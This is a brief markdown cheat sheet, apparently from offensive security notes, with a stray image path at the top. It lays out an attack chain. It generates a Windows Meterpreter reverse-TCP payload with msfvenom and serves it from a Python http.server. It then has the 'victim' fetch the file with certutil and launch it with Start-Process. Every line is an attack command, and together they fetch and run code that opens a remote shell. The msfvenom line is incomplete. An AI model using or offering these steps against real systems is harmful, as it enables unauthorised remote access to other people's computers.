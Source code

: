 ### Using MSF Venom Generate a simple payload

```msfvenom -p windows/x64/meterpreter_reverse_tcp ```

### Set up an http.server and use PS on victim to download payload

```python3 http.server [port-number]```

```certutil -urlcache -split -f http://path.to.server:8000/test.exe```

```Start-Process test.exe```